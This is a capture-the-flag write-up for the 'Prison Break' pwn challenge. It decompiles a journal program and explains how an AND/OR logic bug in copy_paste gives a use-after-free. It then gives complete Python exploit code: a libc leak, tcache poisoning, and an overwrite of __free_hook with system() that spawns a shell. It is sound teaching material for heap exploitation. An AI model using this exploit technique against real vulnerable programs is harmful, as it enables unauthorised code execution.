






        <font size="6">Prison Break</font>

​        2<sup>nd</sup> Oct 2024 / Document No. D24.102.259

​        Prepared By: 131LL

​        Challenge Author(s): 131LL

​        Difficulty: <font color=orange>Medium</font>

​        Classification: Official


# Description:

Day 1077: In this cell, the days blur together.
Journaling is the only thing keeping me sane.
They are not aware that between the lines,
I am planning my great escape.

# Synopsis

Prison Break is a medium pwn challenge, featuring a heap Use-After-Free vulnerability, that can be leveraged into an glibc leak and arbitrary write to get code execution.

## Skills Required

- Basic knowledge of heap exploitation

## Skills Learned

- Tcache poisoning
- __free_hook overwrite

### Protections

Let's start by running `checksec` against the binary we are given:



Every mitigation is enabled.

The GLibc version given is `2.27`, so not a lot of protections are in place.

### Program Interface

Running this binary, the `copy-paste` functionality stands out, as it's not a part of the usual heap challenge interface.



Moving on to reversing.

### Disassembly ⛏️

Let's take a closer look using `Ghidra`:

`create()`:
```C
void create(void)
{
  int iVar1;
  void *pvVar2;
  long in_FS_OFFSET;
  int index;
  void **Journal_t;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Journal index:");
  index = 0;
  __isoc99_scanf(&DAT_0010216f,&index);
  if ((index < 0) || (9 < index)) {
    error("Journal index out of range");
  }
  else if ((*(long *)(Journals + (long)index * 8) == 0) ||
          (*(char *)(*(long *)(Journals + (long)index * 8) + 0x10) == '\0')) {
    Journal_t = (void **)malloc(0x18);
    iVar1 = day + 1;
    *(int *)((long)Journal_t + 0x14) = day;
    day = iVar1;
    puts("Journal size:");
    __isoc99_scanf(&DAT_001021c1,Journal_t + 1);
    pvVar2 = malloc((size_t)Journal_t[1]);
    *Journal_t = pvVar2;
    *(undefined *)(Journal_t + 2) = 1;
    if (*Journal_t == (void *)0x0) {
      error("Could not allocate space for journal");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    puts("Enter your data:");
    read(0,*Journal_t,(size_t)Journal_t[1]);
    *(void ***)(Journals + (long)index * 8) = Journal_t;
    putchar(10);
  }
  else {
    error("Journal index occupied");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The challenge makes use of a `Journal_t struct` to keep track of the chunk allocated, its size, the journal's date, and a bool to check if it is being used. So with each `create` call, we are allocating a `Journal_t` struct, plus a chunk for the journal itself. Then, the `Journal_t pointer` is being added to a global array, on the index chosen by the user.

`delete()`:
```C
void delete(void)
{
  long in_FS_OFFSET;
  int index;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Journal index:");
  index = 0;
  __isoc99_scanf(&DAT_0010216f,&index);
  if ((index < 0) || (9 < index)) {
    error("Journal index out of range");
  }
  else if ((*(long *)(Journals + (long)index * 8) == 0) ||
          (*(char *)(*(long *)(Journals + (long)index * 8) + 0x10) == '\0')) {
    error("Journal is not inuse");
  }
  else {
    *(undefined *)(*(long *)(Journals + (long)index * 8) + 0x10) = 0;
    free(**(void ***)(Journals + (long)index * 8));
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `delete()` function is simple enough. The user is asked to enter the index on the global array they want to be deleted, and then, after checking if that index is `NULL`, frees it. The data chunk itself is not being freed, and nothing is NULLed out.

`view()`:
```C
void view(void)
{
  long in_FS_OFFSET;
  int index;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Journal index:");
  index = 0;
  __isoc99_scanf(&DAT_0010216f,&index);
  if ((index < 0) || (9 < index)) {
    error("Journal index out of range");
  }
  else {
    if (*(long *)(Journals + (long)index * 8) == 0) {
      error("Journal index does not exist");
    }
    if (*(char *)(*(long *)(Journals + (long)index * 8) + 0x10) == '\x01') {
      printf("Day #%s%u%s entry:\n%s\n",&DAT_00102008,
             (ulong)*(uint *)(*(long *)(Journals + (long)index * 8) + 0x14),&DAT_0010201c,
             **(undefined8 **)(Journals + (long)index * 8));
    }
    else {
      error("Journal is not inuse");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `view()` function asks the user for an index, and after the same checks as the `delete()` function, it prints out the Journal's date and the journal itself.


`copy_paste()`:
```C
void copy_paste(void)
{
  long in_FS_OFFSET;
  int copy_index;
  int paste_index;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  copy_index = 0;
  paste_index = 0;
  puts("Copy index:");
  __isoc99_scanf(&DAT_0010216f,&copy_index);
  if ((copy_index < 0) || (9 < copy_index)) {
    error("Index out of range");
  }
  else {
    puts("Paste index:");
    __isoc99_scanf(&DAT_0010216f,&paste_index);
    if ((paste_index < 0) || (9 < paste_index)) {
      error("Index out of range");
    }
    else if ((*(long *)(Journals + (long)copy_index * 8) == 0) ||
            (*(long *)(Journals + (long)paste_index * 8) == 0)) {
      error("Invalid copy/paste index");
    }
    else if ((*(char *)(*(long *)(Journals + (long)copy_index * 8) + 0x10) == '\1') ||
            (*(char *)(*(long *)(Journals + (long)paste_index * 8) + 0x10) == '\1')) {
      if (*(ulong *)(*(long *)(Journals + (long)paste_index * 8) + 8) <
              *(ulong *)(*(long *)(Journals + (long)copy_index * 8) + 8)) {
        error("Copy index size cannot be larger than the paste index size");
        return;
      }
      *(undefined4 *)(*(long *)(Journals + (long)paste_index * 8) + 0x14) = day;
      memcpy(**(void ***)(Journals + (long)paste_index * 8),
            **(void ***)(Journals + (long)copy_index * 8),
            *(size_t *)(*(long *)(Journals + (long)copy_index * 8) + 8));
      puts("Copy successfull!\n");
    }
    else {
      error("Journal index not in use");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The `copy_paste()` function is the most interesting of the bunch. It prompts the user for a `copy_index` and a `paste_index` on the global array of Journals. If none of the indices are NULL, and the Journals are inuse, it proceeds to copy the data of the `copy` Journal into the `paste` Journal. But here lies an important logic bug. Instead of the `&& (AND)` operator, the `|| (OR)` operator is used to check the validity of the Journals. So, one (and only one) of the Journals can have `inuse = false`, and we can interact with a freed Journal, which is a `UAF` (Use-After-Free) vulnerability. We can leverage it into a leak and get code execution later on.

### Exploitation

First things first, we want to obtain a `libc leak`. Since libc's veersion is `2.27`, the `tcache freelist` is used. To overcome this, we will fill a `tcache` of some arbitrary size, and the next freed chunk will be placed on the `unsorted bin`, with a pointer to libc's `main_arena` on it. By leaking that pointer, we  can easily calculate the `libc base address`.

```python
# few helper functions
def alloc(i, size, data=b'aaa'):
  r.sendlineafter(b'# ', b'1')
  r.sendlineafter(b':', str(i).encode())
  r.sendlineafter(b':', str(size).encode())
  r.sendlineafter(b':', data)

def delete(i):
  r.sendlineafter(b'# ', b'2')
  r.sendlineafter(b':', str(i).encode())

def view(i):
  r.sendlineafter(b'# ', b'3')
  r.sendlineafter(b':', str(i).encode())
  r.recvuntil(b':\n')
  return r.recvline()

def copy(copy_idx, paste_idx):
  r.sendlineafter(b'# ', b'4')
  r.sendlineafter(b':', str(copy_idx).encode())
  r.sendlineafter(b':', str(paste_idx).encode())

for i in range(10): alloc(i, 0x80)
for i in range(1, 9): delete(i) # fill up tcache freelist

```

Now, this is the state of the bins.



The problem is that we cannot simply view the freed chunk, but we can leverage the vulnerable `copy_paste` function to move the data of the freed chunk into an existing one. After viewing our inuse Journal, we leak the `main_arena` pointer, and calculate libc's base address.

```python
copy(8, 0) # copy from a freed chunk into an existing one
libc.address = u64(view(0)[:-1].ljust(8, b'\x00')) - 0x3ebca0
print(f'libc @ {hex(libc.address)}')
assert libc.address&0xfff == 0, 'Bad libc address'
```

Since we are using `libc-2.27`, hooks are still being used, and are the obvious target for our attack. We plan to overwrite the `__free_hook` with the address of `system()`, which we will call with a `/bin/sh\x00` pointer argument.

It's trivial to achieve an arbitrary write; The logic bug in `copy_paste` will be used once again. This time, copying data from a valid chunk into a freed one, and overwriting its `next` pointer  field. This way, after removing the chunk with the poisoned pointer from the freelist, the next allocation will end up wherever we point it to. Well, almost. We need to keep in mind that the chunk we are trying to allocate *looks* like an actual chunk, that has a valid size. We can shift the address by a few bytes in order to make that happen.



```python
__free_hook = libc.sym.__free_hook
print(f'__free_hook @ {hex(__free_hook)}')

alloc(1, 0x70, data=p64(libc.sym.__free_hook-0xb))
copy(1, 7) # copy from existing chunk into freed one
```

After running this code, we can observe we have successfully poisoned a tcache pointer.



Now, following one allocation that will not server any purpose, the next request will give us a chunk on `__free_hook - 0xb`. After 11 bytes of padding, we can overwrite the hook with `system()`.

```python
alloc(2, 0x80) # get first chunk out of freelist
alloc(3, 0x80, data=b'a'*0xb + p64(libc.sym.system)) # overwrite __free_hook
```

`free()` is called with a pointer a chunk as an argument, and that argument will be passed to the `__free_hook`. So, by freeing a chunk that has `/bin/sh\x00` written on it, the hook will call `system("/bin/sh\x00")` and pop a shell.

```python
alloc(4, 0x80, data=b'/bin/sh\x00') # create chunk with /bin/sh
delete(4)                           # free that chunk - hook calls system("/bin/sh")
r.recv(1024) # cleanup - not needed

print('** SHELL **')
r.interactive()
```

## Solution

And there we have it:


